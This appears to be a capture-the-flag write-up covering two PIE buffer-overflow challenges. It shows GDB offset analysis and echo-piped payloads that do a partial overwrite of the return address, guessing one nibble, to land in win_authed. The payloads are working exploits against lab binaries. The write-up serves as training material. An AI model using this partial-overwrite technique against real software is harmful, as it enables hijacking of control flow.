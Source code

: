 # PIEs

## PIEs (easy)

1. GDB -> `disas win_authed` -> the address of instruction after auth check is **0x237e**
2. As told in the debug output, the return address from challenge() is stored at 104 bytes from start of input buffer.

    ```shell
    echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x7e\x23" | /challenge/binary-exploitation-pie-overflow-w
    ```

> we need to write two bytes, then one of those nibbles (the fourth least-significant one) will be a guess, and it will be incorrect 15 of 16 times. This is okay: we can just run our exploit a few times until it works (statistically, ~50% chance after 11 times and ~90% chance after 36 times)

## PIEs (hard)

1. In gdb, `disas win_authed` and `disas main`, we get to know:
    - Instruction after auth check is at **0x174c**
    - challenge() returns at **0x19b9**

2. Set a breakpoint `b *challenge+158`, run and give a short string of a's as input
3. `info frame` -> rbp is at **0x7ffdcf51c100**
4. `x/100xg $rbp-200`:
    - input buffer starts at **0x7ffdcf51c0b0**, which is **rbp-0x50** = rbp-80
    - return address is stored at **0x7fffd6cd0ed8**, which is **rbp+0x8** = rbp+8
5. 88 a's followed by desired two bytes (one of the 4 nibbles is a guess, so have to run the exploit a few times):

    ```shell
    echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x4c\x17" | /challenge/binary-exploitation-pie-overflow 
    ```
